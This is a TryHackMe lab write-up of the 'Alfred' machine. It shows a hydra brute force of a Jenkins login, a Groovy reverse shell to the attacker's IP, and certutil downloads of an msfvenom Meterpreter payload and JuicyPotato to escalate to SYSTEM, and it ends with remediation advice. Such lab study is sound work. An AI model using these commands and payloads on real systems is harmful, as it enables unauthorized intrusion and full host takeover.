# Alfred — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.67.143.234 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Alfred** is a TryHackMe machine running a Batman-themed IIS site alongside a Jenkins instance on port 8080. A targeted brute force of Jenkins' login form uncovers a default admin account, granting access to the dashboard and its built-in Script Console, which executes arbitrary Groovy code and yields a reverse shell as bruce. That session carries SeImpersonatePrivilege on an unpatched Windows 7 host, which JuicyPotato abuses to spawn a SYSTEM-level Meterpreter session.

**Attack chain:** Jenkins Credential Brute-Forcing → RCE via Script Console → SeImpersonatePrivilege → JuicyPotato → SYSTEM

## 1. Reconnaissance

A full TCP port scan of the target turned up Microsoft IIS, a Jenkins instance behind Jetty, and RDP, with the RDP certificate and NTLM banner confirming the hostname ALFRED:

```
nmap -p- -Pn -sS -sV -sC -vvv -oN scan.txt 10.67.143.234

PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 126 Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Service
|_ssl-date: 2026-11-24T19:57:05+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2026-11-24T19:57:00+00:00
| ssl-cert: Subject: commonName=alfred
| Issuer: commonName=alfred
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2026-11-23T19:38:14
| Not valid after:  2027-05-25T19:38:14
| MD5:     e322 c246 1deb 6260 d84a 3fb2 4a2b d934
| SHA-1:   e553 9397 26d7 f6e4 792f 0404 3565 877f 6838 aa84
| SHA-256: 9732 4b3f c97a 531e 0691 30da 5422 340b 4a52 2b2a 5bb9 9a57 6a7a ec4a 77e3 4120
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQT/ogdc/oqb5Li1zceEQzVDANBgkqhkiG9w0BAQUFADAR
| MQ8wDQYDVQQDEwZhbGZyZWQwHhcNMjYxMTIzMTkzODE0WhcNMjcwNTI1MTkzODE0
| WjARMQ8wDQYDVQQDEwZhbGZyZWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQCgdEfTXPuSi8TG9Fhr/cEqSqbDDoQ7Q4/iGrki0sBApcZEPAdZwjOvnbqx
| slCUcekN5fFJ9Qg4zbg6Pj+VUGogN2X1mLs9TLwRwECKWyJucT6HzYyOJiz/TBPb
| MO1idzhekSkE8KcIbcyz8LKFl9q4HUTOIY4YbONVANCEwUpcQCTmBhjVuqMY/CwF
| 9aWWdDe0ourXhGTCG6chBqMdse64OmP6Y2158Gt8jE8G1kNS3re7n5/iKL0uJqzv
| oOUsKwD0SUN3AXzHTMVIbaZ3Op6h6f2gJSWpANmkebt4YAAfdVu8M6YnX5bd24b6
| 65PWxLiZbIdDrFLBTjquIodzyG7pAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQUFAAOCAQEAfDxk/eW+T0d/z/ZT
| F4faTQA0pDdsQvoPFS9CrnG6u18snu82PHPECV+mwbtYQDv8U153WCyXgSSdLXgz
| rZ3tWI95RuJqwYE7pImoiZwRu5KdZSWdePfRLSu2zrD7MFijK/voBJDh1+D7DeKg
| 9VZNb5dmlFU8J4Joo0sZyJwGaM34pj4q4V7vhNQkxPLoyadFnkO0CRBbpUwIMaF4
| DTM9nAXbTDIMBRFBYwpdQZ+hcgfYjYraJ+reE0ceSDYa4IZQ7T7uDigxHMlIWkbi
| HJw5+hxwCkaNDy0tN40mdsvbXS0QR1ifOHtHhZ5OYMxMs26wJbXjpHb0XC7Zv5Ui
| WtkRng==
|_-----END CERTIFICATE-----
8080/tcp open  http          syn-ack ttl 126 Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

## 2. Enumeration — IIS and Jenkins

The IIS site on port 80 served a static page themed around Bruce Wayne's death, with no further leads:



Port 8080 hosted a Jenkins instance, exposing its login form at `/j_acegi_security_check`:



## 3. Jenkins Credential Brute-Forcing

A form-based brute force against the `admin` account, submitted through Jenkins' login endpoint, found a working password:

```
hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -s 8080 10.67.143.234 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"

[8080][http-post-form] host: 10.67.143.234   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
```





## 4. Remote Code Execution via Jenkins Script Console

Jenkins' built-in Script Console, reachable from Manage Jenkins, executes arbitrary Groovy code on the host:



With a netcat listener ready to catch the callback, a Groovy reverse shell was pasted into the console:

```
String host="192.168.131.193";int port=4444;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



Running the script caught a callback as `bruce`:





## 5. Privilege Escalation via JuicyPotato

Privilege enumeration on the `bruce` shell revealed an exploitable token privilege:

```
C:\Users\bruce\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

With `SeImpersonatePrivilege` enabled on this Windows 7 SP1 host, a JuicyPotato-style token impersonation attack applies. A Meterpreter payload was generated to run as SYSTEM:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.131.193 LPORT=5555 -f exe -o virus.exe
```

It was served over HTTP and pulled onto the target with `certutil`:

```
python3 -m http.server
```

```
C:\Users\bruce\Desktop>certutil -split -urlcache -f http://192.168.131.193:8000/virus.exe virus.exe

****  Online  ****
  0000  ...
  1e00
CertUtil: -URLCache command completed successfully.
```

`JuicyPotato.exe` itself was downloaded the same way:

```
C:\Users\bruce\Desktop>certutil -split -urlcache -f http://192.168.131.193:8000/JuicyPotato.exe JuicyPotato.exe

****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
```

A multi/handler was set up to catch the payload before triggering it:

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.131.193
set lport 5555
exploit

[*] Started reverse TCP handler on 192.168.131.193:5555 
```

Running `JuicyPotato.exe` on port 9999 with that CLSID completed the token impersonation, executing the payload as SYSTEM:

```
C:\Users\bruce\Desktop>JuicyPotato.exe -l 9999 -p C:\Users\bruce\Desktop\virus.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9999
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

The waiting handler caught the callback and landed a new, elevated session:

```
[*] Sending stage (255679 bytes) to 10.67.143.234
[*] Meterpreter session 1 opened (192.168.131.193:5555 -> 10.67.143.234:49373) at 2026-11-24 15:44:22 -0500
```



Dropping into a native shell from that session:

```
meterpreter > shell
Process 2292 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

From that shell, navigating to `C:\Windows\System32\config` reached the target file:



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Jenkins exposed with a weak, default `admin`/`admin` password | Enforce strong, unique credentials for all Jenkins accounts, and lock out repeated failed logins |
| The built-in Script Console is reachable by any admin account and executes arbitrary Groovy code with no additional authorization | Restrict Script Console access through Jenkins' role-based authorization strategy, or disable it entirely on production instances |
| `SeImpersonatePrivilege` was available to the service account on an unpatched Windows 7 SP1 host, letting JuicyPotato forge a SYSTEM token | Patch and retire outdated Windows hosts, run services under accounts without `SeImpersonatePrivilege`, and monitor for Potato-style DCOM/NTLM abuse |
